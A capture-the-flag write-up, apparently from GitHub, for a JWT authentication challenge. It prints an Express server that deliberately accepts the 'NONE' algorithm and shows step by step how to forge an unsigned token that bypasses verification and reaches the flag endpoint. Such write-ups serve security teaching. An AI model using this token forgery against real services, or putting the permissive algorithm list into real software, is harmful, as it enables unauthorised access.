


# JWT Authentication

## Description

Get the flag!

## Source Code

```js
const express = require('express');
const jwt = require('jsonwebtoken');
const bodyParser = require('body-parser');

const app = express();
app.use(bodyParser.json());
const SECRETKEY = process.env.SECRETKEY;

// Middleware to verify JWT token
// This API will be used by various microservices. These all pass in the authorization token.
// However the token may be in various different payloads.
// That's why we've decided to allow all JWT algorithms to be used.
app.use((req, res, next) => {
  const token = req.body.token;

  if (!token) {
    return res.status(401).json({ message: 'Token missing' });
  }

  try {
    // Verify the token using the secret key and support all JWT algorithms
    const decoded = jwt.verify(token, SECRETKEY, { algorithms: ['HS256', 'HS384', 'HS512', 'RS256', 'RS384',
                                                                'RS512', 'ES256', 'NONE', 'ES384', 'ES512',
                                                                'PS256', 'PS384', 'PS512'] });

    req.auth = decoded;
    next();
  } catch (err) {
    return res.status(403).json({ message: 'Token invalid' });
  }
});

// API route protected by our authentication middleware
app.post('/flag', (req, res) => {
  if (req.auth.access.includes('flag')) {
    res.json({ message: 'If you can make the server return this message, then you`ve solved the challenge!'});
  } else {
    res.status(403).json({ message: '🚨 🚨 🚨 You`ve been caught by the access control police! 🚓 🚓 🚓' })
  }
});

app.listen(3000, () => {
  console.log(`Server is running on port 3000`);
});
```

## Solution

#### Understanding the code

First of all we see that the server runs on the `express` web framework, the code seems to first check if there is the key `token` in the request body, if that's missing, it responds with an error stating : `Token missing`.

However, if the token exists, it attempts to verify it with the variable `SECRETKEY` that holds the secret key, using all supported JWT algorithms.

if the token was not succefully verified, we get the `Token invalid` response, otherwise the code performs a second check after POST requesting the `/flag` endpoint which is verifying the content of the token's data, it checks if the key `access` includes the value `flag`, if that's the case we solve the challenge, otherwise we get this error `🚨 🚨 🚨 You've been caught by the access control police! 🚓 🚓 🚓`.

#### Solving the challenge

so our goal here is to forge a JWT token that will contain this in the body :

```json
{
  "access":["flag"]
}
```

and also pass the verification process.

but how are we gonna bypass the verification process since we don't know the secret key ?

we see among the supported algorithms this server accepts is the `NONE` algorithm, which means no algorithm, if we forge a JWT with the `NONE` algorithm, and remove the signature, the server will automatically verify it and accept it, more details can be found [here](https://portswigger.net/kb/issues/00200901_jwt-none-algorithm-supported).

now we know how our JWT token should look like, firs the header will contain :

```json
{
  "alg": "NONE",
  "typ": "JWT"
}
```

and the body as we discussed earlier will contain :

```json
{
  "access":["flag"]
}
```

and finally the signature will be empty.

the JWT token is constructed as follows :



the different parts are all encoded with `base64` and separated by a point `.`

now we understood the format of the token, let's create our own with the propreties we mentioned earlier :

```bash
# Generating the header
echo '{"alg": "NONE","typ": "JWT"}' | base64
eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQo=

# Generating the body
echo '{"access":["flag"]}' | base64
eyJhY2Nlc3MiOlsiZmxhZyJdfQo=
```

of couse we remove the trailing `=` from the outputs, then combine them and we get our token :

```bash
#______________________________________________________________________________
#|              HEADER                  |          DATA             |SIGNATURE|
 eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQo.eyJhY2Nlc3MiOlsiZmxhZyJdfQo.
```

now let's send a POST request to the `/flag` endpoint with this token :



and with that we solved the first challenge!
